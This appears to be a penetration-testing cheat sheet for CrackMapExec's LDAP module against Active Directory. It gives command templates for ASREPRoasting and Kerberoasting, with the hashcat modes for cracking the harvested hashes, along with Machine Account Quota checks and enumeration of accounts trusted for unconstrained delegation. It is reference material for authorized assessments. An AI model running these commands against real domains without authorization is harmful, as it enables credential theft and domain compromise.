 # cme

% cme-ldap, crackmapexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 


## LDAP connection
edit /etc/hosts
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb
```

## LDAP Machine Account Quota
```bash
cme ldap <ip> -u <user> -p <password> -d <domain> --no-smb -M MAQ
```

## ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## Kerberoasting
Hashcat format  -m 13100
```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```



